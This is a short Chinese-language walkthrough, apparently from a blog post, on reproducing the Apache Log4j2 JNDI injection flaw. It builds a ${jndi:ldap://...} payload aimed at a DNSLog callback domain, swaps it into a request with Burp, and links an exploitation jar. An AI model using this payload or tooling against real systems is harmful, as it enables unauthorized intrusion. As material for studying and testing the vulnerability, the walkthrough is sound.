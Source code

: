 	Apache Log4j是一个基于Java的日志记录组件。Apache Log4j2是Log4j的升级版本，通过重写Log4j引入了丰富的功能特性。该日志组件被广泛应用于业务系统开发，用以记录程序输入输出日志信息

通过DNSLog平台（[http://www.dnslog.cn/](https://link.zhihu.com/?target=http%3A//www.dnslog.cn/)）获取到域名[http://n0t5wh.dnslog.cn](https://link.zhihu.com/?target=http%3A//n0t5wh.dnslog.cn)，构造payload ${jndi:ldap://[http://n0t5wh.dnslog.cn](https://link.zhihu.com/?target=http%3A//n0t5wh.dnslog.cn)}，游览器点击?????使用Burp进行抓包，并且抓包替换payload参数

在DNSLog网站成功收到解析记录：

就可使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar进行漏洞利用：
下载地址：[https://github.com/welk1n/JNDI-](https://link.zhihu.com/?target=https%3A//github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)

